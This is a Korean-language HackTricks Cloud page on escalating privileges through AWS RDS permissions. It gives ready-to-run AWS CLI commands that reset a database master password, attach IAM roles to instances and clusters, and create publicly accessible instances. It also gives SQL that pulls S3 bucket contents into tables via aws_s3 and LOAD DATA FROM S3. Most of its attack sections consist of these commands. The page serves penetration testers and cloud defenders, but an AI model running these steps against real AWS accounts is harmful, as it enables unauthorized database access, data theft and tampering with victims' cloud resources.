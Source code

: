 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - 관계형 데이터베이스 서비스

RDS에 대한 더 많은 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

이 권한을 통해 공격자는 **마스터 사용자 비밀번호를 수정**하고 데이터베이스 내에서 로그인할 수 있습니다:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
데이터베이스에 **연락할 수 있어야 합니다** (일반적으로 내부 네트워크에서만 접근 가능합니다).
{% endhint %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### rds-db:connect

[**문서**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면, 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS 역할 IAM 권한 남용

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**를 실행했을 때 **`rdsadmin`**이라는 데이터베이스를 찾으면 **AWS postgresql 데이터베이스**에 있는 것입니다.
{% endhint %}

먼저 이 데이터베이스가 다른 AWS 서비스에 접근하는 데 사용되었는지 확인할 수 있습니다. 설치된 확장을 살펴보면 확인할 수 있습니다:
```sql
SELECT * FROM pg_extension;
```
만약 **`aws_s3`**와 같은 것을 발견하면, 이 데이터베이스가 **S3에 대한 어떤 종류의 접근 권한을 가지고 있다고 가정할 수 있습니다** (다른 확장자도 있습니다, 예를 들어 **`aws_ml`** 및 **`aws_lambda`**).

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면, **`AssociatedRoles`** 필드에서 **클러스터에 연결된 IAM 역할이 있는지 확인할 수 있습니다**. 만약 있다면, 데이터베이스가 **다른 AWS 서비스에 접근할 수 있도록 준비되었다고 가정할 수 있습니다**. **역할의 이름**(또는 역할의 **권한**을 얻을 수 있다면)을 기반으로 데이터베이스가 어떤 추가 접근 권한을 가지고 있는지 **추측할 수 있습니다**.

이제 **버킷 안의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
만약 **원시 AWS 자격 증명**이 있다면, 다음과 같이 S3 데이터에 접근할 수 있습니다:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **은 S3에 접근하기 위해 어떤 파라미터 그룹 변수를 변경할 필요가 없습니다.**
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 내부에서 **`SELECT User, Host FROM mysql.user;`** 쿼리를 실행했을 때 **`rdsadmin`**이라는 사용자가 있다면, **AWS RDS mysql db** 내부에 있다고 가정할 수 있습니다.
{% endhint %}

mysql에서 **`show variables;`**를 실행하고 **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**와 같은 변수에 값이 있다면, 데이터베이스가 S3 데이터에 접근할 준비가 되어 있다고 가정할 수 있습니다.

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면 클러스터에 **연관된 역할**이 있는지 확인할 수 있으며, 이는 일반적으로 AWS 서비스에 대한 접근을 의미합니다.

이제 **버킷 내의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.\
일부 DB는 추가 구성이 필요하다는 점에 유의하십시오. 예를 들어 Mysql은 매개변수 그룹에서 역할 ARN을 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만으로도 공격자는 **이미 존재하고 IAM 역할이 연결된 클러스터 내에 새로운 인스턴스**를 생성할 수 있습니다. 그는 마스터 사용자 비밀번호를 변경할 수는 없지만, 새로운 데이터베이스 인스턴스를 인터넷에 노출할 수 있을지도 모릅니다:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

`rds:CreateDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할이 연결된 새로운 RDS 인스턴스를 생성할 수 있습니다**. 공격자는 이후 **민감한 데이터에 접근하거나** 인스턴스 내의 데이터를 수정할 수 있습니다.

{% hint style="warning" %}
연결할 역할/인스턴스 프로필의 일부 요구 사항 ( [**여기**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)에서):

* 프로필은 귀하의 계정에 존재해야 합니다.
* 프로필은 Amazon EC2가 가정할 수 있는 IAM 역할을 가져야 합니다.
* 인스턴스 프로필 이름과 관련된 IAM 역할 이름은 `AWSRDSCustom` 접두사로 시작해야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.

{% hint style="warning" %}
DB 인스턴스는 클러스터 외부에 있어야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
